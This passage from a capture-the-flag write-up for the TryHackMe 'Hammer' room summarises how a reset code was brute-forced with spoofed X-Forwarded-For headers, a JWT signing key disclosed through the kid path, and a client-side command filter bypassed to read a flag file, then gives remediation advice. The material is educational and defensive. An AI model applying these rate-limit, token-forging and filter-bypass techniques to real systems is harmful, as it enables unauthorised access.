6. A single-threaded Burp Intruder brute force proves too slow against the rate limiter and time window.
7. A multithreaded Python script (`bruteforce.py`), combining concurrent requests with a spoofed `X-Forwarded-For` header, brute-forces the correct recovery code inside the validity window.
8. The password is reset and the dashboard is accessed, revealing the first flag and a JWT-based `Authorization` token.
9. The dashboard's command-execution feature is found to reject several commands ("Command not allowed"), but a bare `ls` succeeds, and page-source review reveals this filtering is purely client-side JavaScript.
10. The JWT header's `kid` claim is decoded, pointing to a server-side key file; the real file is located via `ls` output and read directly, disclosing the HMAC signing secret.
11. A forged admin-role JWT is built and tested (valid technique, confirmed once the key path is corrected) but proves unnecessary for the final objective.
12. Sending the dashboard's command-execution request **directly to the backend** (bypassing the browser's JavaScript filter entirely) achieves unrestricted command execution, and `cat /home/ubuntu/flag.txt` is read directly for the second flag.

### Remediation Recommendations

- Remove developer/debug comments (directory naming conventions, internal notes) from any HTML or JS shipped to production; treat anything in page source as public.
- Disable directory listing (`Options -Indexes` in Apache) on all web-accessible directories, and move non-public assets (`vendor/`, `composer.json`, log files) outside the web root entirely.
- Do not write sensitive data (account identifiers, internal paths) into log files that are reachable over HTTP; ensure all log directories are excluded from the web root or protected by authentication.
- Replace predictable, short, numeric password-reset codes with cryptographically random tokens of sufficient length (at least 128 bits of entropy) delivered out-of-band (e.g., email link with a single-use token), and enforce strict, server-enforced single-use and expiry — not just a client-side countdown.
- Implement rate limiting keyed off a value that cannot be trivially spoofed by the client (e.g., the actual TCP connection source, validated/sanitised `X-Forwarded-For` only from a trusted, configured reverse-proxy chain, or per-account/per-token limits) and apply it consistently across all authentication-adjacent endpoints.
- Never derive a JWT signing key from a predictable or guessable file path referenced by the token's own `kid` header; if `kid`-based key selection is required, validate it against an allowlist of known key identifiers server-side rather than trusting a client-visible or file-system-derived path, and ensure the key material itself is never web-accessible or readable by the application's own command-execution surface.
- Do not embed signing tokens (JWTs) directly inside rendered HTML/JavaScript where they are visible to any user who views page source; issue and transmit them via secure, `HttpOnly`, `Secure` cookies instead.
- Enforce all input validation and command/feature access control **server-side**. Any restriction implemented only in client-side JavaScript (such as the "Command not allowed" filter observed here) provides no real security and can be trivially bypassed by sending requests directly to the backend endpoint.
- If a command-execution feature is a genuine business requirement, replace free-form shell execution with a strict allowlist of specific, parameterised, non-shell operations; never pass raw user input to a shell interpreter.

---

## References

- TryHackMe Room — Hammer: <https://tryhackme.com/room/hammer>
- Video Walkthrough: <https://www.youtube.com/watch?v=T_F44rHKgZY>
